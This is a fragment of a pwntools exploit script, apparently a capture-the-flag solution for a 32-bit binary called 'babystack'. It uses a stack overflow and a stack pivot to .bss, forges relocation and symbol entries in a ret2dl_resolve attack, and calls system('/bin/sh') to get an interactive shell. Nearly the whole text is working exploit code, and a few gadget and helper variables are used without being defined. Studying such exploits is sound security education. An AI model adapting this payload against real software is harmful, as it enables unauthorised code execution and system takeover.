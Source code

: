 ```
leave_ret = 0x08048448

stack_size = 0x800
bss_addr = 0x0804a040   #readelf -S babystack | grep ".bss"

base_stage = bss_addr + stack_size
plt_0 = 0x8048380 # objdump -d -j .plt babystack

rel_plt = 0x804833c # objdump -s -j .rel.plt babystack
index_offset = (base_stage + 28) - rel_plt
alarm_got = elf.got['alarm']
print "alarm_got: ",hex(alarm_got)
print "alarm_plt: ",hex(alarm_plt)
print "read_plt: ",hex(read_plt)
dynsym = 0x80481DC
dynstr = 0x804827C
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = index_dynsym << 8 | 0x7
fake_reloc = p32(alarm_got) + p32(r_info)
st_name = fake_sym_addr + 0x10 - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload = 'a'*0x28 + p32(bss_addr)
payload += p32(read_plt) + p32(leave_ret) + p32(0) + p32(bss_addr) +     p32(36) 
#raw_input("go:")
p.send(payload)

#fake stack 1 bss_addr
payload1 = 'aaaa' #pop ebp
payload1 += p32(read_plt) + p32(ppp_ret) + p32(0) + p32(base_stage) + p32(100)
payload1 += p32(pop_ebp_ret) + p32(base_stage) #fake stack again
payload1 += p32(leave_ret) #leave: mov esp,ebp; pop ebp
p.send(payload1)

cmd = "/bin/sh"
#fake stack 2 base_stage
payload2 = 'bbbb'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'aaaa'
payload2 += p32(base_stage + 80)
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc #base_stage+28
payload2 += 'b' * align
payload2 += fake_sym #base_stage+36
payload2 += "system\x00"
payload2 += 'a' * (80 - len(payload2))
payload2 += cmd +'\x00'
#payload2 += 'a' * (100 - len(payload2))
print len(payload2)
sleep(1)
p.sendline(payload2)
#p.sendline("token")
p.interactive()
```
